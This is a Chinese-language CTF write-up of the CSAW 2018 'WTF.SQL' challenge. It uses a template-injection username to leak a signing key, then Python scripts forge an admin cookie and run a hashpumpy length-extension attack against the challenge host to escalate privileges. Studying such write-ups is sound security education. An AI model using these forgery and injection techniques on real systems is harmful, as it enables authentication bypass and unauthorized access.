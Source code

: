 ```yaml
---
title: "CSAW CTF 2018 WTF.SQL writeup"
date: 2018-09-11T14:38:19+08:00
tags: ["csawctf", "writeup"]
---
```


打开连接后可以看到是一个注册页面，而且注册后没有登录操作，直接就会变成已登录状态且跳转到个人页面

扫到robots.txt文件，内容信息量很大

```
User-agent: *
Disallow: / # procedure:index_handler
Disallow: /admin # procedure:admin_handler
Disallow: /login # procedure:login_handler
Disallow: /post # procedure:post_handler
Disallow: /register # procedure:register_handler
Disallow: /robots.txt # procedure:robots_txt_handler
Disallow: /static/% # procedure:static_handler
Disallow: /verify # procedure:verify_handler

# Yeah, we know this is contrived :(
```

使用 `verify` 路由可以阅读到一些程序的源码 （全都是存储过程）

![](/img/csaw-ctf-2018-wtfsql-writeup/20180920134141.png)

看到这个路由后，首先想到的是访问 `admin` 路由，但是可以看到 `admin_handler` 中存在判断： `CALL is_admin(admin)`

然后看到 `login_handler`，`login` 存储过程，可以找到设置cookie 的 `set_cookie`

```sql
BEGIN
    DECLARE signed_value TEXT;
    CALL sign_cookie(i_value, signed_value);

    INSERT INTO `resp_cookies` VALUES (i_name, signed_value) ON DUPLICATE KEY UPDATE `value` = signed_value;
END
```

以及其中的 `sign_cookie`

```sql
BEGIN
    DECLARE secret, signature TEXT;
    SET secret = (SELECT `value` FROM `config` WHERE `name` = 'signing_key');

    SET signature = SHA2(CONCAT(cookie_value, secret), 256);

    SET signed = CONCAT(signature, LOWER(HEX(cookie_value)));
END
```

可以发现在 `config` 表中存了一个叫做 `signing_key` 的 secret_key

那么如何取到这个 `signing_key`?

阅读了很多个存储过程后，在渲染模板中其实可以看到一个突破点，这里存在一个SSTI漏洞

首先，查看 `login_handler` 的时候，发现其中 call 了一个 `template`，在 `template` 中可以看到又 call 了一个 `template_string` 来进行渲染，看看这个代码

```sql
BEGIN
    DECLARE formatted TEXT;
    DECLARE fmt_name, fmt_val TEXT;
    DECLARE replace_start, replace_end, i INT;

    SET @template_regex = '\$\{[a-zA-Z0-9_ ]+\}';

    CREATE TEMPORARY TABLE IF NOT EXISTS `template_vars` (`name` VARCHAR(255) PRIMARY KEY, `value` TEXT);
    CALL populate_common_template_vars();

    SET formatted = template_s;
    SET i = 0;

    WHILE ( formatted REGEXP @template_regex AND i < 50 ) DO
        SET replace_start = REGEXP_INSTR(formatted, @template_regex, 1, 1, 0);
        SET replace_end = REGEXP_INSTR(formatted, @template_regex, 1, 1, 1);
        SET fmt_name = SUBSTR(formatted FROM replace_start + 2 FOR (replace_end - replace_start - 2 - 1));
        SET fmt_val = (SELECT `value` FROM `template_vars` WHERE `name` = TRIM(fmt_name));
        SET fmt_val = COALESCE(fmt_val, '');
        SET formatted = CONCAT(SUBSTR(formatted FROM 1 FOR replace_start - 1), fmt_val, SUBSTR(formatted FROM replace_end));
        SET i = i + 1;
    END WHILE;

    SET resp = formatted;

    DROP TEMPORARY TABLE `template_vars`;
END
```

可以发现，如果字符串满足 `template_regex` 那么它将会被替换成一个程序中的变量，而这些变量则来自于 `populate_common_template_vars`

```sql
BEGIN
    INSERT INTO `template_vars` SELECT CONCAT('config_', name), value FROM `config`;
    INSERT INTO `template_vars` SELECT CONCAT('request_', name), value FROM `query_params`;
END
```

所以可以考虑使用 `${config_signing_key}` 来获取sign key，但是被拦住了，提示 `Banned word used in post!`

那么这里考虑使用其它值来获取，考虑到注册后直接显示个人主页，那么尝试注册的时候将用户名设置成 `${config_signing_key}` ，注册成功后跳到个人主页成功获取到了secret key

![](/img/csaw-ctf-2018-wtfsql-writeup/20180920143421.png)

然后算出管理员的cookie

```python
#coding=utf-8
import hashlib

signing_key = "an_bad_secret_value_nhcq497y8".encode("utf-8")
m = hashlib.sha256()
m.update("1".encode("utf-8"))
m.update(signing_key)
print(m.hexdigest() + '1'.encode('hex'))
```

得到 `admin = 3efb7d99e34432bb6405b6a95619978d4904a2f5b5d8d56b3702939c226d729431`

修改cookie后访问发现页面上什么东西都没有，看到 `admin_handler` 中存在的判断

```sql
 CALL has_priv('panel_create', can_create_panels);
 CALL has_priv('panel_view', can_view_panels);
```

查看 `has_priv` 

```sql
BEGIN
    DECLARE privs, cur_privs, cmp_priv BLOB;
    DECLARE hash, signing_key TEXT;

    SET o_has_priv = FALSE;

    SET privs = NULL;
    CALL get_cookie('privs', privs);

    IF NOT ISNULL(privs) THEN
        SET hash = SUBSTR(privs FROM 1 FOR 32);
        SET cur_privs = SUBSTR(privs FROM 33);
        SET signing_key = (SELECT `value` FROM `priv_config` WHERE `name` = 'signing_key');

        IF hash = MD5(CONCAT(signing_key, cur_privs)) THEN
            WHILE ( LENGTH(cur_privs) > 0 ) DO
                SET cmp_priv = SUBSTRING_INDEX(cur_privs, ';', 1);
                IF cmp_priv = i_priv THEN
                    SET o_has_priv = TRUE;
                END IF;
                SET cur_privs = SUBSTR(cur_privs FROM LENGTH(cmp_priv) + 2);
            END WHILE;
        END IF;
    END IF;
END
```

可以看到 `priv` 的值其实就是 `md5(priv_signing_key + privs) + privs`，而这种加密方式，存在哈希长度扩展攻击的可能，使用hashpump来进行攻击，写个脚本算一下priv

```python
#coding=utf-8
import requests
import hashpumpy
import binascii
import hashlib

if __name__ == "__main__": 
    for i in range(1,33):
        res = hashpumpy.hashpump("60f0cc64f5b633cf502d25ea561a98bf", "\x00", ";panel_create;panel_view;", i)
        # use res[1] as res[1][1:] to ignore the first byte!
        res0 = res[0]
        res1 = binascii.hexlify(res[1][1:]).decode("utf-8")       
        m = hashlib.sha256()    # sha256 (
        m.update(str.encode(res[0]))    #      (md5(signing_key, privs)
        m.update(res[1][1:])    #      + privs)
        m.update(str.encode('an_bad_secret_value_nhcq497y8'))   # + secret)
        priv = m.hexdigest()+ binascii.hexlify(str.encode(res0)+res[1][1:]).decode("utf-8") # + (md5(signing_key, privs) + privs)
        cookies = {
            "email": "1d01019d1418a8eef8b22d46bcf40f4cef3475bfe37496f42c3cc3f391a5bfa934757575407176712e696d",
            "admin": "3efb7d99e34432bb6405b6a95619978d4904a2f5b5d8d56b3702939c226d729431",
            "privs": priv
        }
        req = requests.get("http://web.chal.csaw.io:3306/admin", cookies=cookies)
        if len(req.text) != 287:
            print(priv)
            break
```

![](/img/csaw-ctf-2018-wtfsql-writeup/20180920144659.png)

替换后可以看到一个panel，随便输入一个东西会提示 `no such table`，于是尝试输入 config，返回了表内容

![](/img/csaw-ctf-2018-wtfsql-writeup/20180920145246.png)

然后提示中有说到

`Your mission is to read out the txt table in the flag database.`

于是输入 `flag.txt` ，得到flag

![](/img/csaw-ctf-2018-wtfsql-writeup/20180920150223.png)